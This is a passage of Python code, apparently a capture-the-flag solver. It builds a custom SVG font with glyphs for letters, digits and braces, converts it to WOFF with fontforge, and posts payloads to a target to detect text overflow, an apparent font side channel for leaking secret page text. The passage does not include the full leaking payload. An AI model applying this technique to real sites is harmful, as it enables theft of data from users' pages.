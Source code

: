 ```python
<glyph unicode="g" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="h" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="i" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="j" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="k" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="l" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="m" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="n" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="o" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="p" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="q" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="r" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="s" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="t" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="u" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="v" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="w" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="x" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="y" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="z" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="{" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="}" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="0" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="1" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="2" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="3" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="4" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="5" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="6" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="7" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="8" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="9" horiz-adv-x="300" d="M1 0z"/>
<glyph unicode="_" horiz-adv-x="300" d="M1 0z"/>
</font>
</defs>
</svg>
"""

s = requests.Session()
s.headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36"}

with open("./fonts/font1-bak.svg", "wb") as f:
    f.write(font1.encode())

def genFont():
    # use fontforge to convert svg to woff (svg font isn't supported), the workdir must be current folder
    # run.sh is
    # #!/usr/bin/fontforge
    # Open($1)
    # Generate($1:r + ".woff")
    os.system("./fonts/run.sh ./fonts/font1.svg")
    url = ""
    with open("fonts/font1.woff", "rb") as f:
        font1 = f.read()
        url = "data:application/x-font-woff;base64," + base64.b64encode(font1).decode()
    return url

def isOverrflow(payload):
    re = s.post(url, data={"url": payload}, timeout=5).text
    return "Amazing" not in re

```